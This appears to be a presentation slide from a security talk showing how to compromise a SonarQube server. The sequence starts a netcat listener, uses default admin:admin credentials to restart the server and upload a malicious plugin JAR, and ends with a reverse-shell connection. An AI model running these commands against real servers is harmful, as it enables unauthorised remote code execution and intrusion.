

# 1…2…3…POP
START LISTENER
RESTART SONARQUBE
nc -nvlp 1337
curl --user admin:admin -X POST \
https://[TARGET]/api/system/restart

UPLOAD PLUGIN
PROFIT
curl --user admin:admin -X POST \
-F file=@totally-benign-plugin-1.0.jar \ https://[TARGET]/api/updatecenter/upload
connect to [10.10.10.10] from (UNKNOWN) [1.2.3.4] 49178